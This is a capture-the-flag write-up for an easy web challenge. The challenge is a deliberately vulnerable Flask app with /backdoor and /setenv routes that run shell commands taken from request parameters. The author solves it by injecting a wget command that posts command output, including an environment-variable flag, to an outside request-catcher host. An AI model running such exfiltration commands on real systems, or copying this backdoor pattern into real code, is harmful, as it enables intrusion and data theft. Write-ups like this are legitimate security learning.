




# Cig 0
### Web - Easy

- Looks like a simple Flask app! let's dig deeper into it
- 
<details>
    <summary>Reveal Code</summary>
```python
from flask import Flask, render_template, request, redirect
import os

app = Flask(\_\_name\_\_)


@app.route("/setenv", methods=\["GET"\])
def setenv():
    var = request.args.get("var")
    value = request.args.get("value")
    if var is None or var is None:
        return redirect("/")

    os.environ\[var\] = value
    # Harmless logging technique
    os.system("env > /tmp/env.txt")
    return redirect("/")


@app.route("/backdoor", methods=\["GET"\])
def backdoor():
    cmd = request.args.get("cmd")
    if cmd is None:
        return redirect("/")

    os.system(cmd)
    return redirect("/")


@app.route("/")
def show\_source\_code():
    with open(\_\_file\_\_, "r") as f:
        source_code = f.read()
    return render\_template("hello.html", source\_code=source_code)


if \_\_name\_\_ == "\_\_main\_\_":
    port = int(os.environ.get("PORT", 12000))
    app.run(debug=False, host="0.0.0.0", port=port)
```
</details>
- By analyzing the code we see `/backdoor` and `/setenv` both are useful to get RCE!
- in this chall I didn't use `/setenv` as i found and easier way to quickly solve it!
- Simply type 2 commands in `/backdoor?cmd=CMD`, the first will be finding the flag, second will be using `wget` to send data to my requestcatcher (curl wasn't installed probably as it failed) but you can actually combine it in 1 command!
- CMD: `wget --post-data=$(ls) ayham.requestcatcher.com`
- 
- Now let's try to `ls /`
- 
- hmmm! let's try environement vars! `env` but that has 1 issue, it will only send first line, we can use like `tr` or `sed` to join lines but I simply tried `echo $FLAG` and it worked!
- 
- VOILAAA!!